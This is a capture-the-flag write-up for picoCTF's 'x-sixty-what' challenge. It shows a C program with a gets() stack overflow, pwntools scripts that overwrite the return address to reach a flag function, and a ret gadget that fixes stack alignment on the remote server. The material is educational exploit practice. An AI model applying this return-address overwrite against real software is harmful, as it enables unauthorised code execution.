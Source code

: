 # x-sixty-what [Pwn]

Link : [x-sixty-what](https://play.picoctf.org/practice/challenge/319?category=6&originalEvent=70&page=1)

Source code

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Give me a string that gets you the flag: ");
  vuln();
  return 0;
}

```


Overflow x64 code

```python
from pwn import *
sh = process("./vuln")
print(sh.recv().decode())
sh.sendline(b"A"*(64+8) + p64(0x00401236)) # flag() adresse: 0x00401236  
sh.interactive()
```

It worked locally but not on the remote server.

This is a Movaps stack alignment issue.


##### Movaps stack alignment

If you're segfaulting on a movaps instruction in buffered_vfprintf() or do_system() in the x86_64 challenges, then ensure the stack is 16-byte aligned before returning to GLIBC functions such as printf() or system()[Read more...](https://ropemporium.com/guide.html)

The solution is to call the ret of an other function one more time before calling the flag() function when designing the overflow stack, so that the rsp address can be reduced by 8.

I used the return address from init.

To find it: ```objdump vuln -M intel --disassemble=_init```

![init](datas/init.png)

```python
from pwn import *
sh = remote("saturn.picoctf.net",58049)
print(sh.recv().decode())
sh.sendline(b"A"*(64+8) + p64(0x0040101a) + p64(0x00401236))
sh.interactive()
```

![flag](datas/flagsixty.png)
